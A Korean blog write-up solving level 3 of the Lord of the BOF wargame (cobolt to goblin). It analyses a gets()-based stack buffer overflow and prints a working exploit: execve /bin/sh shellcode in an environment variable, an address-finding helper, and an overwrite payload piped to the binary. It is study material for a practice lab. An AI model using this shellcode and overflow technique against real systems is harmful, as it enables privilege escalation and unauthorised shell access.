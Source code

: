 ```yaml
---
title:  "[LOB] level 3: cobolt >> goblin "

categories: lob
tags: [lob]

toc: true
toc_sticky: true

date: 2021-12-21 08:34:32

---
```

\xff 를 \x00으로 인식하는 오류를 피해 bash2를 사용합니다

# level 3

**cobolt / hacking exposed**

goblin.c 코드 읽기  
![image](https://user-images.githubusercontent.com/69203345/146894685-aa55ba81-ddc4-4b05-a935-7f4944d16824.png)

gets함수로 입력을 받는다

![image](https://user-images.githubusercontent.com/69203345/146895063-41e8d70f-a855-4a0a-bdf7-9fed3be04bb9.png)

0x80483fb <main+3>: sub %esp, 16  
스택의 크기는 16바이트  

낮은주소

buf[16] [ebp-16]
sfp[4]  
ret[4]

높은주소

아마 이런 구조 일것이다


환경변수설정, 41바이트 쉘코드 사용  
> export EGG=\`python -c 'print "\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'`  
> echo 'int main() { printf("ADDR -> 0x%x\n", getenv("EGG")); } ' > getenv.c  
> gcc getenv.c -o getenv

![image](https://user-images.githubusercontent.com/69203345/146897549-61fd1fb2-0b68-4b1a-8c6f-c0574b78054b.png)  
나온 주소를 사용해서 페이로드 작성

> (python -c 'print "A"*20+"\xbd\xfd\xff\xbf"'; cat) | ./goblin

파이프라인을 사용하는 이유 매개변수로 받는게 아닌 gets함수(표준입력)로 받기 때문에, argv로는 전달할수 없음

![image](https://user-images.githubusercontent.com/69203345/146897736-6cb418d7-efda-4ca0-bfb4-4de41bf045ba.png)

level2와 비슷해서 어렵지 않게 풀은듯